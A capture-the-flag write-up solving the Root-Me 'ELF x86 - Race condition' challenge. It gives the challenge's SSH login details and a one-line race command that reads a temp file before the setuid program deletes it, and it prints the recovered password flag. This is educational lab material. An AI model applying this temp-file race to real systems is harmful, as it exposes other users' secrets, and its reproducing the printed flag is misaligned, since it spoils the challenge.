 # ELF x86 - Race condition
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Race-condition
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch12@challenge02.root-me.org  
Username	app-systeme-ch12
Password	app-systeme-ch12
```
According to the source code, the program will create a temporary file with the permissions 444, will open the .passwd file and write it to the temporary file.<br>
Then it will sleep for 0.25 seconds and will delete the temporary file.<br>
So, the basic idea is to run the executable and then (while the executable sleeps) read the temporary file, which is at **/tmp/tmp_file.txt**.

In order of doing so, let's use the linux's "&" operator, which enables running multiple commands concurrently.<br>
After a few tries, one will be able to get the following output:
```sh
app-systeme-ch12@challenge02:~$ ./ch12 & cat /tmp/tmp_file.txt
[5] 32037
cat: /tmp/tmp_file.txt: No such file or directory
[4]   Done                    ./ch12
app-systeme-ch12@challenge02:~$ ./ch12 & cat /tmp/tmp_file.txt
[6] 32039
eh-q8dEa8q19f9aF()"2a96q92
[5]   Done                    ./ch12
```

